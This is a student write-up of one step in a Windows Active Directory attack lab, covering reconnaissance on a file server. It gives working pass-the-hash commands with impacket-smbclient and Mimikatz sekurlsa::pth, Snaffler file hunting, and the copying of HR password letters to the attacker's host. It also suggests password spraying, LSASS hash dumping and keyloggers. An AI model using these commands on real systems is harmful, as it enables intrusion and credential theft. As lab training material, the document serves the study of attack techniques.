


# Windows Attack Lab - Step 7 - Situational Awareness on FS1

## Author
* Knöpfel, Daniel
* Duijts, Michael

## Methodology

Instead of psexec it's possible to directly connect via smb.  
`impacket-smbclient -hashes :9859340265d3b3c1eb628ece70ebc238 winattacklab.local/aalfort@10.0.1.101`

This allows to manually search for interesting files on targets client.

To optimise manual research `snaffler` can automatically search for interesting files. To use `snaffler` with a NTLM hash we need to use Mimikatz to get a `cmd.exe` with user `aalfort`
```
c:\temp\tools\mimikatz\x64\mimikatz.exe
privilege::debug
sekurlsa::pth /user:aalfort /domain:winattacklab.local /ntlm:9859340265d3b3c1eb628ece70ebc238 /run:cmd.exe
```

`c:\temp\tools\Snaffler\Snaffler.exe --outfile C:\temp\tools\Snaffler\snaffler_aalfort_fs1.log --comptarget fs1.winattacklab.local --stdout`

Now transfer interesting files via `impacket-smbclient` to attackers host.
```
get HR\employees\password_letter_template.docx
get HR\employees\password_letter_Adam_Amaker.docx
get HR\employees\password_letter_Elizabeth_Clifton.docx
get IT\utils\bulk_create_ad_users.ps1
```

## Answers
- What is the intended use of the PowerShell script?
    - To create multiple users (read in from a CSV file) in AD, which are forced to change their password upon first logon.
    - No password visible. The password will be entered in script directly before using it.
- What is the problem with the used password scheme and how would you fix this?
  - Password scheme is too simple ("Welc0me2020!") and can possible be cracked and even worse, it seems that they just update the year number but do not change the base structure or base word ("Welc0me").
- What could we do next with the gathered credentials?
  - Try out the the gathered credentials
    - probably won't work as passwords probably have changed
  - Password spraying: Maybe there is an account, that has not yet changed the password: "Welc0me2022!" (using current year)
- What other technique could we apply in order to get even more credentials from FS1?
  - Get NTML hashes from LSASS process
  - Try to use allfort (or helpdesk) to access other servers and get NTML hashes from there
  - Install tools such as keylogger etc. to observe user interaction. Maybe we might be able to gather more info/credentials over time
    - could be detected?!


## Queston: 
  When i run `whoami` after running `sekurlsa::pth /user:aalfort /domain:winattacklab.local /ntlm:9859340265d3b3c1eb628ece70ebc238 /run:cmd.exe` "hacker" returned but not allford. Why?